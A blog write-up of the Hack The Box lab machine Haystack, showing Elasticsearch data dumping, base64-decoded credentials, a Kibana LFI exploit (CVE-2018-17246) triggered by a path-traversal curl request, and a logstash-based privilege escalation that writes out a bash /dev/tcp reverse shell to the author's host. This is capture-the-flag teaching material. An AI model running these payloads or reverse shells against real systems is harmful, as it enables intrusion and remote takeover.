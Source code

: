 +++
author = "Nick"
categories = ["CTF", "NetSec", "Linux", "ELK", "reverse shell", "api", "netcat"]
date = 2019-11-02T15:51:17Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/08/info-1.png"
slug = "hack-the-box-haystack"
summary = "Welcome back! Today we are doing the machine Haystack on Hack the Box. Lets jump in!"
tags = ["CTF", "NetSec", "Linux", "ELK", "reverse shell", "api", "netcat"]
title = "Hack The Box - Haystack"

+++


Welcome back! Today we are doing the machine Haystack on Hack the Box. Lets jump in!

As usual, we start off with a standard nmap scan ``` nmap -sC -sV -oA ./haystack_scan 10.10.10.115 ``` 

We get back a small amount of results.
```
Nmap scan report for 10.10.10.115
Host is up (0.12s latency).
Not shown: 997 filtered ports
PORT     STATE      SERVICE VERSION
22/tcp   unfiltered ssh
80/tcp   unfiltered http
9200/tcp unfiltered wap-wsp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.53 seconds
```

The first things we'll do is take a peek at what's running on port 80. When we browse to it we get a picture of a needle... in a haystack. Awesome. Nothing really in the source and nothing crazy about the image either. We'll run a quick dirbuster against the page and see what comes back.

To do that we'll run ```dirb http://10.10.10.115/ /usr/share/wordlists/dirb/common.txt ```This will just check for what might there. Once this comes back maybe we'll run it again looking for .html, .php and other file types.

While that runs, we curl port 9200 and we get back some json from an Elasticsearch install. Which means that Elasticsearch REST API is listening on this port. We can probably use this to run some queries.

First we'll try to get the list of indices, keeping in mind I'm working on the free labs these results tend to vary. We'll head over to the browser on port 9200 and simply use the '_cat/indices?v' on our url to list them.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-2.png" >}}

We see our standard .kibana index as well as quotes and bank. Lets get the content of these. We can do it in two ways. The first is by just putting our query into the browser. The second is by using curl. We'll craft our request by using the [Elasticsearch documentation](https://www.elastic.co/guide/en/elasticsearch/reference/current/docs.html). We want to target the quotes index first. So we'll use the search function and the size parameter to get the contents of the index. ```curl -H 'Content-Type: application/json' -X GET 'http://10.10.10.115:9200/quotes/_search/?size=500&pretty'``` We use the ?size parameter to specify the size, in this case we'll use 500 since we know there are 253 entries. The &pretty on the end simply formats the JSON in a standard fasion. Once we send the request we get back a ton of data. We'll pipe the data out to a text file for saving: ```curl -H 'Content-Type: application/json' -X GET 'http://10.10.10.115:9200/quotes/_search/?size=500&pretty' > quotes.txt```

Once we open the file, we see just about everything is in Spanish. However, before we translate it, we'll simply page through it for anything that might stick out.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-3.png" caption="Hmmm... "I have to save the password for the machine"" >}}

This is base64 encoding, so it's unlikley that this string is the password however it does decode to 'user: security'. So we have a username but what about a password? As we keep skimming through the data, we find another:

{{< figure src="__GHOST_URL__/content/images/2019/08/image-4.png" caption=""This key cannot be lost, I keep it here"" >}}

This decodes to pass: spanish.is.key. Well it seems we have a username / password combination, lets see if SSH is going to work for us. Sure does!

{{< figure src="__GHOST_URL__/content/images/2019/08/image-5.png" >}}

Next thing we'll do is run LinEnum to see what we're working with. We'll start up a python server with ```python -m SimpleHTTPServer``` and download our LinEnum script to a tmp directory. Once we have the output we can parse it for anything that could let us escalate. I didn't really see much aside from a user named kibana with no logon services. Some quick googling around leads us to this [Kibana LFI](https://github.com/mpgn/CVE-2018-17246). Great, time to read up on it and see if we can get it to work. The first thing we need to do is check which port the backend service is running on, which by default is 5601 To do that we can look at the kibana.yml. So we issue ```cat /etc/kibana/kibana.yml | grep 5601 -n1```

{{< figure src="__GHOST_URL__/content/images/2019/08/image-6.png" >}}

Sure enough, default port. Before we can launch the LFI we need to upload a shell. In this case, we'll use the one provided in the github. Now that we've created shell.js we can run this LFI against it using cURL. ``` curl 'http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../tmp/1/shell.js' ```

{{< figure src="__GHOST_URL__/content/images/2019/08/image-7.png" >}}

Our netcat session lights up and we have a connection back as kibana. Now we're going to want to spawn a proper terminal session. We do this by making python do our work for us: ```python -c 'import pty; pty.spawn("/bin/sh")' ```. We now have an upgraded account, kibana. Lets run LinEnum again and see what we get back.

It finishes running and we see that we have write access to /opt/kibana/ which is new. So now what? We do some research on how kibana functions and we notice that we have access to read the files in /etc/logstash/conf.d where we didn't before. This is great, now we can see how logstash rules are being processed. After viewing the input.conf file, it seems pretty clear.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-9.png" >}}

We create a file in /opt/kibana/ with the prefix of logstash_. This file will run our commands. However, to do this, we need to understand Grok. Lucky for us there is an online tool to help us out. Grok Online Debugger. So what we need to do is take the Grok pattern from the filter and apply it. Then we can issue the commands and see what we get. So in this case we're going to echo our command into that file. Netcat doesn't seem to run as this user, so we'll bash redirecting.

We'll use the following ```echo "Ejecutar  comando: bash -i >& /dev/tcp/10.10.15.125/1234 0>&1" > /opt/kibana/logstash_1.txt``` A quick break down of the command is we are telling the filter to do the command. 'bash -i' creates and interactive shell session. The '>& /dev/tcp/10.10.15.125/1234' redirects that to a system TCP socket and the '0>&1' connects the standsard input to a standard output. Giving us a shell session. Now that we've executed the above command, we just wait for the rules to fire off and we get root!

{{< figure src="__GHOST_URL__/content/images/2019/08/image-8.png" >}}

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).





